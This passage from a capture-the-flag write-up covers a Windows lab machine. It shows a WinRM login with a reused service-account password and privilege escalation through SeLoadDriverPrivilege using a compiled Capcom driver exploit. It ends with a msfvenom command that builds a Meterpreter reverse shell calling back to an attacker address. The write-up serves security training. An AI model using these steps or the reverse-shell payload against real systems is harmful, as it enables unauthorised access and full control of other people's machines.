 Just like we though. The password does indeed work with the scan service account as well as the print account! We'll now try to use `evil-winRM` to log into the machine as that account.

Command:
`evil-winrm -i 10.10.10.193 -u svc-print`

Once logged in we head over to the Desktop and snag our `user.txt` flag!

{{< figure src="__GHOST_URL__/content/images/2020/06/image-59.png" >}}

Now we need to start enumerating internally. We find some intersting files during our manual enumeration, like drivers in our Documents directory, a test application bed and some others. We know from reading the readme.txt file that a solution is built and placed in the test folder.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-60.png" >}}

As we continue to look at our privileges from `winPEAS` we see the token privileges area has some unique attributes.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-61.png" >}}

Some quick research leads me [here](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/). An article on abusing `SeLoadDriverPrivilege`, they are even kind enough to give us a PoC to use. We do need to compile the file.

To compile the file you'll need to create a new C++ Console App.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-62.png" >}}

Then create a new source file.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-63.png" >}}

Then paste in the PoC code. You'll also want to comment out line 6 if you are having issues building the code. The only thing that `stdafx.h` is tell the compiler will find the compiled header files from stdafx.h and does not compiled it from scratch. Once you've done then, build the solution.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-64.png" >}}

We can now copy over our compiled executable to our target box. When we run it we are greated with our expected usage:

{{< figure src="__GHOST_URL__/content/images/2020/06/image-65.png" >}}

Now that we have this working exploit we'll move it over to the `test` directory and run it again.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-67.png" >}}

Now we need to slightly modify our `ExploitCapcom` executable that was [linked](https://github.com/tandasat/ExploitCapcom) in the research above. What we need to do is make it call an executable we create.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-68.png" >}}

Now that we have that location linked, we'll build the solution. Now it's time to create our malicious payload. You can do this in two ways, via `msfvemon` or `msfpc`.

Command:
```
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.143 LPORT=5555 -f exe -o rootme.exe
```
